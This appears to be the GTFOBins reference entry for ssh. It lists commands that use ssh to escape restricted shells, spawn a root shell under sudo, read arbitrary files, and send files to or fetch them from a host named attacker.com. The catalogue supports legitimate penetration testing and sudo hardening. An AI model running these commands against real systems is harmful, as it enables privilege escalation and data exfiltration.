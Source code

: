 # GTFOBin: ssh

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

Reconnecting may help bypassing restricted shells.

```
ssh localhost $SHELL --noprofile --norc
```

Spawn interactive shell through ProxyCommand option.

```
ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

Spawn interactive shell on client, requires a successful connection towards `host`.

```
ssh -o PermitLocalCommand=yes -o LocalCommand=/bin/sh host
```

## File upload

It can exfiltrate files on the network.

Send local file to a SSH server.

```
HOST=user@attacker.com
RPATH=file_to_save
LPATH=file_to_send
ssh $HOST "cat > $RPATH" < $LPATH
```

## File download

It can download remote files.

Fetch a remote file from a SSH server.

```
HOST=user@attacker.com
RPATH=file_to_get
LPATH=file_to_save
ssh $HOST "cat $RPATH" > $LPATH
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The read file content is corrupted by error prints.

```
LFILE=file_to_read
ssh -F $LFILE localhost
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Spawn interactive root shell through ProxyCommand option.

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```